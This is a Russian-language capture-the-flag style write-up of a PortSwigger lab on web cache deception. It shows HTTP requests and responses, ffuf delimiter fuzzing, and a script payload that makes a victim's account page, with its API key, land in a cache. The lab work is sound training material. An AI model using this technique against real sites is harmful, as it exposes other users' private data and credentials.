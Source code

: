 [Источник](https://t.me/coffee_cube)
## Scope

[ссылка на лабу](https://portswigger.net/web-security/learning-paths/web-cache-deception/wcd-using-normalization-discrepancies/web-cache-deception/lab-wcd-exploiting-cache-server-normalization#)

```
https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
```

Для прохождения лабы нужно найти `API` ключи пользователя `carlos` с помощью [[Web cache deception]]. 

Для входа в свою учетную запись можно использовать креды `wiener`:`peter`.

## Notes

Зайдем в личный кабинет. Попробуем посмотреть, какие ресурсы кэширует веб сервер. Нашел запрос к статическому ресурсы, который кэшируется:

```HTTP
GET /resources/js/tracking.js HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Sec-Fetch-Dest: script
Sec-Fetch-Mode: no-cors
Sec-Fetch-Site: same-origin
Te: trailers
```

Ответ:

```HTTP
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 70

document.write('<img src="/resources/images/tracker.gif?page=post">');
```

Попробую найти примерное правило кэширования. Для этого заменю `tracking.js` на рандомный символы. Если ответ будет кэширован, значит правило кэширует ресурсы по статическому пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Я получил `404`, но ответ был кэшировался. А значит файлы в `/resourses` - кэшируюется. Посмотрю нормализацию пути. Для этого добавлю `/aaa/..%2f` в начало `/aaaa/..%2fresources/js/tracking.js`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ так же кэшировался. Попробую добавить `/aaaa/..%2f` после пути `/resources`: `/resources/aaaa/..%2fjs/tracking.js`.

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 11

"Not Found"
```

Ответ все равно кэшировался. Значит путь преобразовался к нормальному виду до кэширования.

Теперь посмотрю то, как нормализуется путь к динамическим ресурсам. Для этого буду работать с запросом к `/my-account`:

```HTTP
GET /my-account HTTP/2
Host: 0a1a004203e3db3880ab21a700c90051.web-security-academy.net
Cookie: session=OLj3BzuRT25z8Ym7ZCblnYtZSkNcockE
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую добавить рандомные символы к пути: `/my-account/aaaa`:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Значит такой способ не подходит. Попробую добавить `/aaa/..%2f` к началу пути:

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Все еще не то( Хмм... А если наоборот подставить в конец? `/my-account%2f%2e%2e%2aaaa`

```HTTP
HTTP/2 404 Not Found
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11

"Not Found"
```

Тоска( Видимо путь на сервере не нормализуется. Попробую добавить `/resourses` к пути динамического ресурса. Посмотрю, какие разделители обрабатывает сервер. Для этого использую `ffuf`. В целом, это можно сделать и в `Burp`, но я хочу так)

```bash
 ffuf -u https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-accountFUZZaaa \
 -w wordlists/webcache_delimeters.txt
```

Вывод:

```bash
%                       [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 91ms]
?                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 165ms]
#                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 171ms]
%23                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 176ms]
/                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 136ms]
%2F   3                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 65ms]
%3F                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 81ms]
%00                     [Status: 500, Size: 21, Words: 3, Lines: 1, Duration: 72ms]
```

В качестве разделителя сервер принимает `%`, `?`, `#`, `/` и `%00`.  Я знаю, что путь к кэшируемы ресурсам нормализуется до кэширования, поэтому путь следующего формата должен кэшироваться `/my-account#%2f..%2fresourses`. Проверю это:

```HTTP
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 0
X-Cache: miss
Content-Length: 3866

...

```

Сработало. Теперь нужно скрафтить пейлоад. Для пейлоада буду использовать URL `https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned`. В качестве файла с нагрузкой использую `HTML`:

```XML
<script>document.location="https://0a1a004203e3db3880ab21a700c90051.web-security-academy.net/my-account#%2f..%2fresources/pwned"</script>
```

![](images/Pasted image 20250222195110.png)

Это не сработало. А почему? Попробую закодировать символы - это не помогло...

Прошел час. Была выпита одна чашка кофе. Я решил попробовать написать `html` полностью. И о чудо, оно сработало...

![](/images/Pasted image 20250222212036.png]

Долгожданный `API-key`:

![[Pasted image 20250222211820.png]]

Мда уж. Иногда стоит взять перерыв. А лаба решена:

![[Pasted image 20250222212135.png]]
